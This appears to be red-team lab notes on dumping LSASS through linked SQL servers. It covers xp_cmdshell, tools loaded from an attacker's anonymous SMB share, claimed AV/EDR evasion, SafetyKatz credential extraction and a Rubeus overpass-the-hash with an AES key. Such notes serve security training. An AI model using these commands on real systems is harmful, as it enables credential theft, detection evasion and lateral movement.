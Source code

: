 # LSASS Dump

This module will cover another way other than reverse shell to get access to SQL server. This will follow safe ways to dump **LSASS** which will bypass AV or EDR.&#x20;

There are multiple ways to download tools into the victim machine. These are&#x20;

* **HTTP**(s) - detected by EDR
* **Binaries** intended for download like msedge.exe - Not detected but need to store the dump into the victim machine
* **SMB** - Not detected and user friendly cause tools can be directly loaded from the share and the dump can be stored directly to the share.

Make sure to create a share from the attacker machine following the below steps.

* Adding `Everyone`, `Guest` and `ANONYMOUS LOGON` to the permissions of the share.
* Open the _Local_ _Group Policy Editor_ (e.g. by running `gpedit.msc`)
  * Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options
  * **Accounts: Guest account status:** `Enabled`
  * **Network access: Let Everyone permissions apply to anonymous users:** `Enabled`
  * **Network access: Restrict anonymous access to Named Pipes and Shares:** `Disabled`
  * **Network access: Shares that can be accessed anonymously:** `YOUR_SHARE_NAME`

```powershell
# Get the LSASS process ID
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\DCORP-STDx.dollarcorp.moneycorp.local\sqlshared\FindLSASSPID.exe''' -QueryTarget eu-sql32

# Break the detection chain
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'SELECT @@version' -QueryTarget eu-sql32

# Dump the LSASS
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\DCORP-STDx.dollarcorp.moneycorp.local\sqlshared\minidumpdotnet.exe <process_id> \\DCORP-STDx.dollarcorp.moneycorp.local\sqlshared\heyu.dmp''' -QueryTarget eu-sql32
```

Extract the credentials from the dump

```batch
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::minidump C:\AD\Tools\sqlshared\something.dmp" "sekurlsa::evasive-keys" "exit"

:: OPTH to get access
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:dbadmin /aes256:ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f /domain:eu.eurocorp.local /dc:eu-dc.eu.eurocorp.local /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

:: Test the connection
winrs -r:eu-sql32.eu.eurocorp.local cmd
```
